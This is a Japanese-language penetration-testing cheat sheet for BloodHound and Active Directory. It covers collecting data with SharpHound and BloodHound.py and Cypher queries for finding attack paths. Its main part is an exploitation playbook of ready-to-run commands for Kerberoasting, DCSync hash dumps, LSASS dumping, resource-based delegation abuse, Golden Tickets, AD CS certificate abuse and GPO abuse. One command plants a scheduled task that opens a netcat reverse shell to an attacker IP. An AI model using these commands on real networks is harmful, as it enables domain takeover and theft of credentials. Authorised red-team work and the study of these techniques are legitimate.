







## TL;DR

BloodHoundはActive Directoryの信頼関係をマッピングし、Domain Adminへの攻撃パスを特定する。本ガイドでは、データ収集からBloodHoundが明らかにできるすべてのパスに対する正確な悪用コマンドまで**すべて**を網羅する。

**ワークフロー：**

```
1. 収集 → SharpHound / BloodHound.py
2. インポート → BloodHound GUI / BloodHound CE
3. クエリ → 組み込み + カスタムCypher
4. 悪用 → 各パスに対するツール固有のコマンド
```

---

## 1. データ収集

### SharpHound（Windows — ドメイン参加済み）

```cmd
:: 全収集メソッド（全体像把握に推奨）
SharpHound.exe --CollectionMethods All --Domain domain.local --ExcludeDCs

:: ステルスモード（クエリ少・ノイズ低）
SharpHound.exe --CollectionMethods DCOnly --Domain domain.local

:: セッション収集のみ（誰がどこにログインしているか）
SharpHound.exe --CollectionMethods Session --Loop --LoopDuration 02:00:00 --LoopInterval 00:05:00

:: 特定の収集メソッド
SharpHound.exe --CollectionMethods Group,LocalAdmin,Session,ACL,Trusts,ObjectProps,SPNTargets,Container,GPOLocalGroup

:: 資格情報指定（非ドメイン参加または別ユーザー）
SharpHound.exe --CollectionMethods All --Domain domain.local --LdapUsername user1 --LdapPassword Password123

:: PowerShell版
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain domain.local -ZipFileName output.zip
```

### BloodHound.py（Linux — リモート）

```bash
# 標準収集
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -ns <DC_IP> -c All

# NTLMハッシュ指定（Pass-the-Hash）
bloodhound-python -u 'user1' --hashes :<NTLM_HASH> -d domain.local -ns <DC_IP> -c All

# Kerberos認証
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -ns <DC_IP> -c All --auth-method kerberos

# 特定の収集
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -ns <DC_IP> -c Group,LocalAdmin,Session,ACL,Trusts,ObjectProps

# DNS解決の問題 — DCを直接指定
bloodhound-python -u 'user1' -p 'Password123' -d domain.local -dc dc01.domain.local -ns <DC_IP> -c All
```

### 収集メソッドリファレンス

| メソッド | 説明 | ノイズレベル |
|---|---|---|
| `All` | 以下すべてを組み合わせ | 高 |
| `DCOnly` | DCへのLDAPクエリのみ（エンドポイントに触れない） | 低 |
| `Group` | グループメンバーシップ | 低 |
| `LocalAdmin` | 全マシンのローカル管理者 | 高 |
| `Session` | アクティブセッション（誰がどこにログイン中か） | 中 |
| `ACL` | ADオブジェクトのACL/ACE | 低 |
| `Trusts` | ドメイン/フォレストの信頼関係 | 低 |
| `ObjectProps` | オブジェクトプロパティ（SPN、LAPS等） | 低 |
| `GPOLocalGroup` | GPO由来のローカルグループメンバーシップ | 低 |
| `SPNTargets` | Kerberoasting用のSPNターゲット | 低 |
| `Container` | OU/コンテナ構造 | 低 |
| `CertServices` | AD証明書サービス（ESC1–ESC8） | 低 |

---

## 2. 組み込みクエリ（BloodHound GUI）

### 事前構築された分析クエリ

| クエリ名 | 目的 | 優先度 |
|---|---|---|
| **Find all Domain Admins** | DAグループメンバーの特定 | 必須 |
| **Find Shortest Paths to Domain Admins** | 主要な攻撃パス | 必須 |
| **Find Principals with DCSync Rights** | DCSync可能なユーザー | 必須 |
| **Find Computers where Domain Users are Local Admin** | 容易な横展開 | 必須 |
| **Find AS-REP Roastable Users** | Kerberos事前認証無効 | 高 |
| **Find Kerberoastable Users** | SPNを持つユーザー | 必須 |
| **Shortest Paths to DA from Kerberoastable Users** | 複合パス | 必須 |
| **Shortest Paths from Domain Users to High Value Targets** | 最も広い攻撃面 | 必須 |
| **Find Dangerous Rights for Domain Users Group** | 過剰な権限を持つグループ | 必須 |
| **Find All Paths from Domain Users to Domain Admins** | すべての可能なパス | 必須 |

---

## 3. カスタムCypherクエリ

### 3.1 高優先度の偵察

```cypher
// すべてのDomain Adminを検索
MATCH (g:Group) WHERE g.name =~ '(?i).*DOMAIN ADMINS.*'
MATCH (g)<-[:MemberOf*1..]-(u)
RETURN u.name, labels(u)

// Enterprise Adminを検索
MATCH (g:Group) WHERE g.name =~ '(?i).*ENTERPRISE ADMINS.*'
MATCH (g)<-[:MemberOf*1..]-(u)
RETURN u.name, labels(u)

// 所有ユーザーからDomain Adminへの最短パス
MATCH p=shortestPath((u {owned:true})-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
RETURN p

// 任意のユーザーからDomain Adminへの最短パス（上位10件）
MATCH p=shortestPath((u:User)-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
WHERE u<>g
RETURN p
ORDER BY length(p)
LIMIT 10

// Domain Usersグループからのすべての最短パス
MATCH p=shortestPath((g1:Group {name:'DOMAIN USERS@DOMAIN.LOCAL'})-[*1..]->(g2:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
RETURN p
```

### 3.2 Kerberos攻撃

```cypher
// すべてのKerberoast可能なユーザー（管理者カウント付き）
MATCH (u:User) WHERE u.hasspn=true
RETURN u.name, u.displayname, u.description, u.admincount, u.serviceprincipalnames
ORDER BY u.admincount DESC

// DAへのパスを持つKerberoast可能なユーザー
MATCH (u:User {hasspn:true})
MATCH p=shortestPath((u)-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
RETURN u.name, length(p)
ORDER BY length(p)

// AS-REP Roast可能なユーザー
MATCH (u:User) WHERE u.dontreqpreauth=true
RETURN u.name, u.displayname, u.description

// 制約なし委任のコンピュータ
MATCH (c:Computer {unconstraineddelegation:true})
WHERE NOT c.name CONTAINS 'DC'
RETURN c.name, c.operatingsystem

// 制約付き委任 — ユーザーとコンピュータ
MATCH (n) WHERE n.allowedtodelegate IS NOT NULL
RETURN n.name, n.allowedtodelegate, labels(n)

// リソースベース制約付き委任（RBCD）
MATCH (n)-[:AllowedToAct]->(c:Computer)
RETURN n.name, c.name
```

### 3.3 ACL / ACE悪用パス

```cypher
// 他のユーザーにGenericAllを持つユーザー（パスワードリセット）
MATCH (u1:User)-[:GenericAll]->(u2:User)
RETURN u1.name, u2.name

// グループにGenericAllを持つユーザー（メンバー追加）
MATCH (u:User)-[:GenericAll]->(g:Group)
RETURN u.name, g.name

// コンピュータにGenericAllを持つユーザー（RBCD / LAPS）
MATCH (u:User)-[:GenericAll]->(c:Computer)
RETURN u.name, c.name

// ユーザーへのGenericWrite（ターゲットKerberoast / Shadow Credentials）
MATCH (u1)-[:GenericWrite]->(u2:User)
RETURN u1.name, u2.name

// コンピュータへのGenericWrite（RBCD）
MATCH (n)-[:GenericWrite]->(c:Computer)
RETURN n.name, c.name

// WriteDACL（ACLを変更可能）
MATCH (u)-[:WriteDacl]->(target)
RETURN u.name, target.name, labels(target)

// WriteOwner（所有権を取得可能）
MATCH (u)-[:WriteOwner]->(target)
RETURN u.name, target.name, labels(target)

// ForceChangePassword
MATCH (u1)-[:ForceChangePassword]->(u2:User)
RETURN u1.name, u2.name

// グループへのAddMember
MATCH (u)-[:AddMember]->(g:Group)
RETURN u.name, g.name

// 所有プリンシパルからのすべてのアウトバウンドACL悪用パス
MATCH (u {owned:true})-[r]->(target)
WHERE type(r) IN ['GenericAll','GenericWrite','WriteDacl','WriteOwner','ForceChangePassword','AddMember','Owns','AllExtendedRights','AddSelf','AddAllowedToAct','WriteSPN']
RETURN u.name, type(r), target.name, labels(target)

// DCSync権限を持つユーザー
MATCH (u)-[:GetChanges]->(d:Domain)
MATCH (u)-[:GetChangesAll]->(d:Domain)
RETURN u.name
```

### 3.4 横展開

```cypher
// 所有ユーザーが管理者アクセスを持つコンピュータ
MATCH (u {owned:true})-[:AdminTo]->(c:Computer)
RETURN u.name, c.name

// 所有ユーザーがRDP可能なコンピュータ
MATCH (u {owned:true})-[:CanRDP]->(c:Computer)
RETURN u.name, c.name

// 所有ユーザーがPSRemote可能なコンピュータ
MATCH (u {owned:true})-[:CanPSRemote]->(c:Computer)
RETURN u.name, c.name

// 所有ユーザーがDCOM実行可能なコンピュータ
MATCH (u {owned:true})-[:ExecuteDCOM]->(c:Computer)
RETURN u.name, c.name

// 高価値ターゲットのログインセッションを検索
MATCH (u:User)-[:HasSession]->(c:Computer)
MATCH (u)-[:MemberOf*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'})
RETURN u.name, c.name

// Domain Usersがローカル管理者であるコンピュータ
MATCH (g:Group {name:'DOMAIN USERS@DOMAIN.LOCAL'})-[:AdminTo]->(c:Computer)
RETURN c.name
```

### 3.5 GPO悪用

```cypher
// DAがログイン中のコンピュータに適用されるGPO
MATCH (g:GPO)-[:GpLink]->(ou:OU)-[:Contains*1..]->(c:Computer)
MATCH (u:User)-[:HasSession]->(c)
MATCH (u)-[:MemberOf*1..]->(da:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'})
RETURN g.name, c.name, u.name

// GPOへの書込アクセスを持つユーザー
MATCH (u)-[r]->(g:GPO)
WHERE type(r) IN ['GenericAll','GenericWrite','WriteDacl','WriteOwner']
RETURN u.name, type(r), g.name

// Domain Controllers OUにリンクされたGPO
MATCH (g:GPO)-[:GpLink]->(ou:OU)
WHERE ou.name =~ '(?i).*domain controllers.*'
RETURN g.name, ou.name
```

### 3.6 証明書サービス（AD CS — ESC1-ESC8）

```cypher
// 脆弱な証明書テンプレートを検索（ESC1）
MATCH (t:GPO) WHERE t.type = 'Certificate Template'
MATCH (t)<-[:Enroll|AutoEnroll]-(p)
WHERE t.enrolleesuppliessubject = true
  AND t.authenticationenabled = true
  AND t.requiresmanagerapproval = false
RETURN t.name, p.name

// 認証局を検索
MATCH (n:GPO) WHERE n.type = 'Enrollment Service'
RETURN n.name, n.caname, n.certificatename

// テンプレートへの書込アクセス（ESC4）
MATCH (u)-[r]->(t:GPO {type:'Certificate Template'})
WHERE type(r) IN ['GenericAll','GenericWrite','WriteDacl','WriteOwner']
RETURN u.name, type(r), t.name
```

### 3.7 信頼関係

```cypher
// すべてのドメイン信頼
MATCH (d1:Domain)-[r:TrustedBy]->(d2:Domain)
RETURN d1.name, r.trusttype, r.trustdirection, r.sidfiltering, d2.name

// 双方向信頼（最も悪用可能）
MATCH (d1:Domain)-[:TrustedBy]->(d2:Domain)-[:TrustedBy]->(d1)
RETURN d1.name, d2.name

// 外部グループメンバーシップ
MATCH (u)-[:MemberOf]->(g:Group)
WHERE u.domain <> g.domain
RETURN u.name, u.domain, g.name, g.domain
```

### 3.8 資格情報の露出

```cypher
// 説明にパスワードがあるユーザー
MATCH (u:User) WHERE u.description =~ '(?i).*(pass|pwd|cred|secret).*'
RETURN u.name, u.description

// 1年以上パスワードを変更していないユーザー
MATCH (u:User) WHERE u.pwdlastset < (datetime().epochSeconds - 31536000)
  AND u.enabled = true
RETURN u.name, u.pwdlastset
ORDER BY u.pwdlastset

// LAPSが有効なコンピュータ
MATCH (c:Computer) WHERE c.haslaps = true
RETURN c.name

// ReadLAPSPassword権限を持つユーザー
MATCH (u)-[:ReadLAPSPassword]->(c:Computer)
RETURN u.name, c.name

// GMSAパスワード読取可能なユーザー
MATCH (u)-[:ReadGMSAPassword]->(t)
RETURN u.name, t.name
```

---

## 4. 攻撃パス悪用プレイブック

### 4.1 GenericAll on User → パスワードリセット / ターゲットKerberoast



**オプションA：パスワード強制リセット**

```powershell
# PowerView
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString 'NewP@ss123!' -AsPlainText -Force) -Verbose

# netコマンド
net user targetuser NewP@ss123! /domain
```

```bash
# rpcclient
rpcclient -U 'domain/owneduser%Password123' <DC_IP> -c "setuserinfo2 targetuser 23 'NewP@ss123!'"
```

**オプションB：ターゲットKerberoast（SPN設定→Roast→クラック）**

```powershell
# 1. ターゲットユーザーにSPNを設定
Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='http/fake'} -Verbose

# 2. Kerberoast
Rubeus.exe kerberoast /user:targetuser /nowrap

# 3. クラック
hashcat -m 13100 hash.txt wordlist.txt

# 4. クリーンアップ — SPNを削除
Set-DomainObject -Identity targetuser -Clear serviceprincipalname -Verbose
```

**オプションC：Shadow Credentials（ADCS必須）**

```bash
# pywhisker（Linux）
python3 pywhisker.py -d domain.local -u owneduser -p 'Password123' --target targetuser --action add --dc-ip <DC_IP>

# 生成された証明書で認証
python3 gettgtpkinit.py domain.local/targetuser -cert-pfx <generated.pfx> -pfx-pass <pass> <targetuser.ccache>
```

### 4.2 GenericAll on Group → メンバー追加

```powershell
# PowerView
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'owneduser' -Verbose

# netコマンド
net group "Domain Admins" owneduser /add /domain
```

```bash
# Impacket
pth-net rpc group addmem "Domain Admins" owneduser -U 'domain/owneduser%Password123' -S <DC_IP>
```

### 4.3 GenericAll on Computer → RBCD / LAPS読取

**オプションA：リソースベース制約付き委任（RBCD）**

```powershell
# 1. マシンアカウントを作成
New-MachineAccount -MachineAccount FAKECOMP -Password $(ConvertTo-SecureString 'FakePass123!' -AsPlainText -Force)

# 2. 偽コンピュータのSIDを取得
$sid = Get-DomainComputer FAKECOMP -Properties objectsid | Select -Expand objectsid

# 3. ターゲットコンピュータにRBCDを設定
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$sid)"
$bytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($bytes, 0)
Set-DomainObject -Identity 'TARGET-PC$' -Set @{'msds-allowedtoactonbehalfofotheridentity'=$bytes}

# 4. S4U経由でサービスチケットを取得
Rubeus.exe s4u /user:FAKECOMP$ /rc4:<FAKECOMP_NTLM> /impersonateuser:administrator /msdsspn:cifs/target-pc.domain.local /ptt

# 5. ターゲットにアクセス
dir \\target-pc.domain.local\C$
```

```bash
# LinuxからImpacketで
# 1. マシンアカウントを作成
impacket-addcomputer domain.local/owneduser:Password123 -computer-name 'FAKECOMP$' -computer-pass 'FakePass123!' -dc-ip <DC_IP>

# 2. RBCDを設定
impacket-rbcd domain.local/owneduser:Password123 -delegate-from 'FAKECOMP$' -delegate-to 'TARGET-PC$' -action write -dc-ip <DC_IP>

# 3. サービスチケットを取得
impacket-getST domain.local/'FAKECOMP$':'FakePass123!' -spn cifs/target-pc.domain.local -impersonate administrator -dc-ip <DC_IP>

# 4. チケットを使用
export KRB5CCNAME=administrator@cifs_target-pc.domain.local@DOMAIN.LOCAL.ccache
impacket-psexec domain.local/administrator@target-pc.domain.local -k -no-pass
```

**オプションB：LAPSパスワード読取**

```powershell
# PowerView
Get-DomainComputer target-pc -Properties ms-mcs-AdmPwd

# AD Module
Get-ADComputer target-pc -Properties ms-Mcs-AdmPwd | Select ms-Mcs-AdmPwd
```

```bash
# Linux
crackmapexec ldap <DC_IP> -u owneduser -p Password123 -d domain.local -M laps
```

### 4.4 GenericWrite on User → ターゲットKerberoast / Shadow Credentials

```powershell
# ターゲットKerberoast
Set-DomainObject -Identity targetuser -Set @{serviceprincipalname='http/fake'}
Rubeus.exe kerberoast /user:targetuser /nowrap

# ログオンスクリプトインジェクション
Set-DomainObject -Identity targetuser -Set @{scriptpath='\\attacker\share\payload.exe'}
```

### 4.5 GenericWrite on Computer → RBCD

4.3のオプションAと同じ — `msDS-AllowedToActOnBehalfOfOtherIdentity`を設定。

### 4.6 WriteDACL → 自分に任意の権限を付与



```powershell
# ターゲットに対する自分へのGenericAllを付与
Add-DomainObjectAcl -TargetIdentity targetuser -PrincipalIdentity owneduser -Rights All -Verbose

# ドメインにDCSync権限を付与
Add-DomainObjectAcl -TargetIdentity 'DC=domain,DC=local' -PrincipalIdentity owneduser -Rights DCSync -Verbose
```

```bash
# Impacket dacledit
impacket-dacledit domain.local/owneduser:Password123 -target-dn 'DC=domain,DC=local' -action write -rights DCSync -principal owneduser -dc-ip <DC_IP>
```

### 4.7 WriteOwner → 所有権取得 → WriteDACL → GenericAll

```powershell
# 1. 所有権を取得
Set-DomainObjectOwner -Identity targetobject -OwnerIdentity owneduser -Verbose

# 2. WriteDACLを付与
Add-DomainObjectAcl -TargetIdentity targetobject -PrincipalIdentity owneduser -Rights All -Verbose

# 3. GenericAllとして悪用
```

### 4.8 ForceChangePassword

```powershell
# PowerView
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString 'NewP@ss123!' -AsPlainText -Force)
```

```bash
# rpcclient
rpcclient -U 'domain/owneduser%Password123' <DC_IP> -c "setuserinfo2 targetuser 23 'NewP@ss123!'"
```

### 4.9 AddMember → 特権グループに追加

```powershell
Add-DomainGroupMember -Identity 'Target Group' -Members 'owneduser'
net group "Target Group" owneduser /add /domain
```

### 4.10 DCSync権限 → 全ハッシュダンプ



```powershell
# Mimikatz
lsadump::dcsync /domain:domain.local /user:Administrator
lsadump::dcsync /domain:domain.local /all /csv
```

```bash
# Impacket
impacket-secretsdump domain.local/owneduser:Password123@<DC_IP>
impacket-secretsdump domain.local/owneduser@<DC_IP> -hashes :<NTLM_HASH>

# 特定のユーザーをダンプ
impacket-secretsdump domain.local/owneduser:Password123@<DC_IP> -just-dc-user Administrator
```

### 4.11 Kerberoasting → サービスアカウントのクラック

```powershell
# Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe kerberoast /user:svc_mssql /nowrap

# PowerView
Invoke-Kerberoast -OutputFormat Hashcat | Select Hash | Out-File hashes.txt
```

```bash
# Impacket
impacket-GetUserSPNs domain.local/owneduser:Password123 -dc-ip <DC_IP> -request

# クラック
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

### 4.12 AS-REP Roasting

```powershell
# Rubeus
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt
```

```bash
# Impacket（資格情報なしで列挙可能）
impacket-GetNPUsers domain.local/ -usersfile users.txt -dc-ip <DC_IP> -format hashcat -outputfile asrep.txt

# 資格情報あり
impacket-GetNPUsers domain.local/owneduser:Password123 -dc-ip <DC_IP> -request

# クラック
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
```

### 4.13 制約なし委任 → TGTキャプチャ



```powershell
# 1. 侵害コンピュータでTGTを監視
Rubeus.exe monitor /interval:5 /nowrap

# 2. DCからの認証をトリガー（PrinterBug）
SpoolSample.exe DC01.domain.local COMPROMISED-PC.domain.local

# 3. キャプチャしたTGTを使用
Rubeus.exe ptt /ticket:<BASE64_TGT>

# 4. DCSync
mimikatz # lsadump::dcsync /domain:domain.local /user:krbtgt
```

```bash
# PetitPotam（Linux）
python3 PetitPotam.py COMPROMISED-PC DC01.domain.local

# Krbrelayx（リスナー）
python3 krbrelayx.py -hashes :<MACHINE_HASH>
```

### 4.14 制約付き委任 → 任意ユーザーの偽装

```powershell
# S4U攻撃 — 許可されたサービスに管理者を偽装
Rubeus.exe s4u /user:svc_constrained /rc4:<NTLM> /impersonateuser:administrator /msdsspn:cifs/target.domain.local /ptt

# 代替サービス（サービス名は強制されない）
Rubeus.exe s4u /user:svc_constrained /rc4:<NTLM> /impersonateuser:administrator /msdsspn:cifs/target.domain.local /altservice:ldap,http,host /ptt
```

```bash
# Impacket
impacket-getST domain.local/svc_constrained:Password123 -spn cifs/target.domain.local -impersonate administrator -dc-ip <DC_IP>
export KRB5CCNAME=administrator.ccache
impacket-psexec domain.local/administrator@target.domain.local -k -no-pass
```

### 4.15 GPO悪用 → リンクされたマシンでのコード実行

```powershell
# SharpGPOAbuse — 即時スケジュールタスクを追加
SharpGPOAbuse.exe --AddComputerTask --TaskName "Reverse Shell" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe" --GPOName "Vulnerable GPO"

# GPO経由でローカル管理者を追加
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount owneduser --GPOName "Vulnerable GPO"

# GPO更新を強制
gpupdate /force
```

```bash
# pyGPOAbuse（Linux）
python3 pygpoabuse.py domain.local/owneduser:Password123 -gpo-id "GPO_GUID" -command 'cmd /c net localgroup administrators owneduser /add' -dc-ip <DC_IP>
```

### 4.16 AD CS証明書悪用（ESC1–ESC8）



**ESC1 — Enrollee Supplies Subject + Authentication EKU**

```bash
# 脆弱なテンプレートを検索
certipy find -u owneduser@domain.local -p Password123 -dc-ip <DC_IP> -vulnerable

# Domain Adminとして証明書を要求
certipy req -u owneduser@domain.local -p Password123 -ca 'YOURCA' -template 'VulnTemplate' -upn 'administrator@domain.local' -dc-ip <DC_IP>

# 証明書で認証
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>

# 管理者NTLMハッシュ取得 → DCSync
impacket-secretsdump domain.local/administrator@<DC_IP> -hashes :<NTLM>
```

**ESC8 — AD CS Webエンロールメントへのリレー**

```bash
# リレー開始
impacket-ntlmrelayx -t http://<CA_IP>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# DC認証を強制
python3 PetitPotam.py <ATTACKER_IP> <DC_IP>

# キャプチャした証明書を使用
certipy auth -pfx dc01.pfx -dc-ip <DC_IP>
```

### 4.17 ReadLAPSPassword → ローカル管理者

```powershell
Get-DomainComputer target-pc -Properties ms-mcs-AdmPwd
```

```bash
crackmapexec ldap <DC_IP> -u owneduser -p Password123 -d domain.local -M laps

# LAPSパスワードでログイン
crackmapexec smb <TARGET_IP> -u Administrator -p '<LAPS_PASSWORD>' --local-auth
impacket-psexec ./Administrator:'<LAPS_PASSWORD>'@<TARGET_IP>
```

### 4.18 ReadGMSAPassword → サービスアカウント

```powershell
# PowerShell
$gmsa = Get-ADServiceAccount -Identity svc_gmsa -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
$secpwd = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```bash
# Linux
python3 gMSADumper.py -u owneduser -p Password123 -d domain.local -l <DC_IP>
```

### 4.19 HasSession → 横展開による資格情報窃取



```powershell
# DAがログイン中のコンピュータの管理者権限を持っている場合
# 資格情報をダンプ
mimikatz # sekurlsa::logonpasswords

# またはリモートでLSASSダンプ
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

### 4.20 クロスドメイン信頼関係の悪用

```powershell
# 信頼キーを取得
mimikatz # lsadump::trust /patch

# レルム間TGTを作成（SID Historyを持つGolden Ticket）
mimikatz # kerberos::golden /user:Administrator /domain:child.domain.local /sid:<CHILD_SID> /krbtgt:<CHILD_KRBTGT_HASH> /sids:<ENTERPRISE_ADMINS_SID> /ptt

# 親ドメインにアクセス
dir \\parent-dc.domain.local\C$
```

```bash
# Impacket — SID history付きレルム間
impacket-ticketer -nthash <TRUST_KEY> -domain child.domain.local -domain-sid <CHILD_SID> -extra-sid <PARENT_DA_SID> administrator
export KRB5CCNAME=administrator.ccache
impacket-psexec child.domain.local/administrator@parent-dc.domain.local -k -no-pass
```

---

## 5. 運用ワークフロー



### 所有ノードのマーキング

```cypher
// ユーザーを所有としてマーク
MATCH (u:User {name:'OWNEDUSER@DOMAIN.LOCAL'})
SET u.owned = true

// コンピュータを所有としてマーク
MATCH (c:Computer {name:'OWNED-PC.DOMAIN.LOCAL'})
SET c.owned = true

// カスタム高価値ターゲットを設定
MATCH (u:User {name:'SVC_MSSQL@DOMAIN.LOCAL'})
SET u.highvalue = true
```

---

## ツールリファレンス

| ツール | 用途 | URL |
|---|---|---|
| **SharpHound** | Windows AD収集 | [https://github.com/BloodHoundAD/SharpHound](https://github.com/BloodHoundAD/SharpHound) |
| **BloodHound.py** | Linux AD収集 | [https://github.com/dirkjanm/BloodHound.py](https://github.com/dirkjanm/BloodHound.py) |
| **BloodHound CE** | Community Edition（最新） | [https://github.com/SpecterOps/BloodHound](https://github.com/SpecterOps/BloodHound) |
| **Rubeus** | Kerberos悪用 | [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus) |
| **Impacket** | AD/SMBツールスイート | [https://github.com/fortra/impacket](https://github.com/fortra/impacket) |
| **PowerView** | AD列挙 | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) |
| **Certipy** | AD CS攻撃 | [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy) |
| **SharpGPOAbuse** | GPO悪用 | [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) |
| **pywhisker** | Shadow Credentials | [https://github.com/ShutdownRepo/pywhisker](https://github.com/ShutdownRepo/pywhisker) |
